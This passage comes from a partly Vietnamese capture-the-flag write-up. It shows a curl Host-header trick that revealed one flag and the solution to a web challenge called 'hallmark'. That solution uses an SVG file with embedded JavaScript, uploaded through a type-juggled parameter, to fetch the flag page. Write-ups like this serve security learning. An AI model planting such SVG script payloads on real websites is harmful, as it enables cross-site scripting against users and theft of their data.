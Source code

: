 lệnh: curl -H "host: flag.local" https://pioneer.tailec718.ts.net

![img](./images/14.png)


flag: `actf{reaching_the_core__chapter_8}`


# hallmark
80 Point

WEB

## Description

![](https://hackmd.io/_uploads/rySjqjHin.png)


## Solution

tấn không XML XSS vào tham số type, tham số type thêm [] vào trước để tạo lỗi type juggle

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      fetch('https://hallmark.web.actf.co/flag')
   </script>
</svg>
```